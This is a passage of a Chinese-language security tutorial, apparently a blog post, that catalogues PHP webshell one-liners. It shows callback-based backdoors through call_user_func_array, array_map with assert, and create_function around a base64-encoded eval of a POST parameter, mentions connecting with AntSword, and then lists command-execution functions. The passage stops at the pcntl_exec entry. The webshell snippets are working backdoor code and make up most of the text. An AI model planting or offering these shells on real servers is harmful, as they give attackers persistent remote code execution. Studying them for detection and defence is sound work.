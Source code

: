 ```php
call_user_func_array($_POST['a'], $_POST['c']);
```

![](https://y4er.com/img/uploads/20190509160497.jpg)

和上一个函数相比只是将`$c`改为数组传入，蚁剑连接方式同理。

### create_function
```php
create_function ( string $args , string $code ) : string
```
create_function函数接收两个参数`$args` 和 `$code` 然后组成新函数`function_lambda_func($args){$code;}` 并`eval(function_lambda_func($args){$code;})`

我们不需要传参数，直接把`$code`改为普通的一句话就行了。

```php
$c=create_function("", base64_decode('QGV2YWwoJF9QT1NUWyJjIl0pOw=='));$c();
```
密码c
### array_map
```php
array_map ( callable $callback , array $array1 [, array $... ] ) : array
```
返回数组，是为 `array1` 每个元素应用 callback函数之后的数组。 callback 函数形参的数量和传给 `array_map() `数组数量，两者必须一样。

一句话：

```php
array_map('assert',array($_POST['c']));
```

还有诸如`array_filter`、`uksort`、`uasort`、`array_walk + preg_replace`、`preg_filter`、`mb_ereg_replace`、`register_shutdown_function`、`filter_var`

更多的回调函数请移步 [创造tips的秘籍——PHP回调后门](https://www.leavesongs.com/PENETRATION/php-callback-backdoor.html)

# 命令执行
---
### system
```php
system ( string $command [, int &$return_var ] ) : string
```
system — 执行外部程序，并且显示输出，本函数执行 command 参数所指定的命令， 并且输出执行结果。
```php
system('whoami');
```
### passthru
```php
passthru ( string $command [, int &$return_var ] ) : void
```
passthru — 执行外部程序并且显示原始输出
```php
passthru('whoami');
```
### exec
```php
exec ( string $command [, array &$output [, int &$return_var ]] ) : string
```
exec() 执行 command 参数所指定的命令。
```php
echo exec("whoami");
```
### pcntl_exec
```php
```